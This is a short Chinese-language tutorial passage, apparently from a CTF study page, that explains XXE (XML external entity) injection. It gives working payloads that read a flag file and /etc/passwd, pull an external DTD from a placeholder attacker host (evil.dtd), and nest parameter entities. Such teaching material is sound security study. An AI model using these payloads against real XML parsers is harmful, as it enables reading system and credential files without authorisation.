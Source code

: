 ## 直接通过DTD外部实体声明

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE NPFS[
<!ENTITY  npfs SYSTEM "file:///home/ctf/flag.txt">]>
<something>&npfs;</something>
```

## 通过DTD文档引入外部DTD文档，再引入外部实体声明

xml内容：

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
       <!ENTITY %d SYSTEM "http://www.123.com/evil.dtd">
       %d;
]>
<aaa>&b;</aaa>
```

DTD文件(evil.dtd)内容

```
<!ENTITY b SYSTEM "file:///etc/passwd">
```

## 通过DTD外部实体声明引入外部实体声明

xml内容：

```
<?xml verstion="1.0" encoding="utf-8"?>
<!DOCTYPE a SYSTEM "http://www.123.com/evil.dtd">
<a>&b;</a>
```

DTD文件(evil.dtd)内容

```
<!ENTITY b SYSTEM "file:///etc/passwd">
```

另外，不同程序支持的协议是不一样:

![](https://img.npfs06.top/20210306103114.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

参数实体还能嵌套定义但是内层的参数实体的%需要进行HTML转义，否则会解析出错

就如下面一样:

```none
<?xml version="1.0"?>
<!DOCTYPE a[
    <!ENTITY % para '<!ENTITY &#x25; files SYSTEM "file:///etc/passwd">'>
]>
```
